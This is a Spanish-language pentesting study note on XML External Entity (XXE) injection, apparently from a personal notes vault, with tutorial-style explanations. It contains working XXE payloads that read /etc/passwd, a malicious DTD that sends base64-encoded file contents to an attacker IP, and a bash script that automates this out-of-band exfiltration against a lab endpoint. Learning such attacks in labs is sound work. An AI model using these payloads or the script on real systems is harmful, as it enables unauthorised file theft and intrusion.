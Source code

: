 ----
- Tags: #ataque #basico #ataques 
----

# ¿ Que es XML?

### **XML** es un metalenguaje que permite definir lenguajes de marcas desarrollado por el World Wide Web Consortium utilizado para almacenar datos en forma legible.

### XML (E**X**tensible **M**arkup **L**angague) se encarga de almacenar y transportar datos siguiendo una estructura de arbol.
![[xml.png]]

----

# Entidades 

### Las **entidades** son una forma de representar a un elemento de datos , sin referenciar a los datos, esto en un documento XML.

### Existen entidades **Genericas / Customizadas**, **Externas (XXE)**, **Predefinidas (&lt, &gt)]**. 

----

# ¿ Que es un XXE?

### Un **XML External Entitiy Injection** o **XXE**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a revursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como apliacciones web o servicios web. 

### Un ataque **XXE** mayormente implica la inyección en una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servodpr y puede resultar en la xposición de información sensible. Como en la mayoria de vulnerabilidades, esta vulnerabilidad se da cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe.

### Con **XXE** no siempre se obtiene una exposición directa de información sensible en la respuesta, si no que aveces el atacante al igual qeu con las [[SQLI - (Inyecciones SQL)]] el atacante debe ir a "**ciegas**" a través de tecnicas adicionales. Esto puede ser más lento y requiere más trabajo que una explotación directa. sin embargo, puede ser efectivo en casos donde el atacante tiene una idea geenral de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado. 

### A si tambien, muchas veces el **XXE** puede ser utilizado como un vector de ataque para explotar una vulnerabilidad [[SSRF - (Server-Side Request Forgery)]] para escanear puertos internos.

----

# Ataque 

### Por ejemplo, si tuvieramos la sig petición en XML: 

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

### Jugando con un **DTD** (Document Type Definition) y entidades Externas podemos explotar la vulnerabilidad

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY name "dobliuw" >]>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>&name;</email>
	<password>dobliuw123</password>
</root>
```

### En este caso vemos que somos capaces de crear una entidad con `<!DOCTYPE foo [<!ENTITY name "dobliuw" >]>` y  hacer que el valor de tome en donde va el email con `&name`, en este caso es name por que la entidad definida se llama name

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd" >]>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>&name;</email>
	<password>dobliuw123</password>
</root>
```

### Ahora, esto de llamar la entidad dentro de la estructura xml puede ser que no funcione, por lo que existe el concepto de **XEE OOB Blind (XML External Entity Out of Band a ciegas)** por lo que para explotarla podriamos ver si se logra hacer una petción http a nuestra maquina.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38" > %myFile; ]>
<root>
	<name>dobliuw</name>
	<tel>12314124</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

### En ese caso, podriamos intentar llamar a un archivo en concreto, por ejemplo un "malicious.dtd" con una estructura de entidades para dumpear archivos del sistema de la maquina, recibiendo los archivos como petición http con su cadena en base64. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38/malicious.dtd" > %myFile; ]>
<root>
	<name>dobliuw</name>
	<tel>12314124</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

#### Malicious.dtd:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.38/?file=%file;'>">
%eval;
%exfil; 
```

### Y obviamente, explotando nuestras habilidades de atacante, más que claro esta que podriamos crearnos un script en python, bash o cualquier lenguaje para automatizar esto al punto de simplemente escribir un archivo a dumpear y que se dumpee. Asi como tambien es importante tener en cuenta que podriamos realizar un [[SSRF - (Server-Side Request Forgery)]] con las **XXE**. 

```shell
#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n\t[!] Quiting...\n\n"
	kill -9 $PID 
	wait $PID 2>/dev/null 
	/usr/bin/rm -f response
	/usr/bin/rm -f malicious.dtd 
	exit 1 
}

trap ctrl_c SIGINT

if [ $EUID -ne 0 ]; then 
	echo -e "\n\n\t[!] The scrip need runs like root :)\n\n"
else 
  python3 -m http.server 80 &>response &   # Levantamos en segundo plano un servidor http
  PID=$! # Guardamos en la variable PID el PID del proceso para al realizar ctrl c matarlo
  sleep 2 

  while true; do  
  
  echo -ne "\n[!] Introduce el archivo a leer: " && read -r file; # -r para que acepte espacios 
  
  evildtd="""
  <!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$file\">
  <!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.38/?file=%file;'>\">
  %eval;
  %exfil;""" # Estructura maliciosa para lograr el dumpeo de archivos 

  [[ -f "malicious.dtd" ]] && /usr/bin/rm malicious.dtd 
  echo "" > malicious.dtd
  echo $evildtd > malicious.dtd 


  # Automatizamos tambien la petición maliciosa
  /usr/bin/curl -s -X GET "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38/malicious.dtd" > %myFile; ]>
  <root><name>dobliuw</name><tel>12314124</tel><email>dobliuw@dobliuw.com</email><password>dobliuw123</password></root>' &>/dev/null 

  echo -e "\n[+] $file : " && /usr/bin/cat response | /usr/bin/tail -n 1 | /usr/bin/grep -oP "/?file=\K[^.*]+" | /usr/bin/base64 -d
  done 
fi 
```
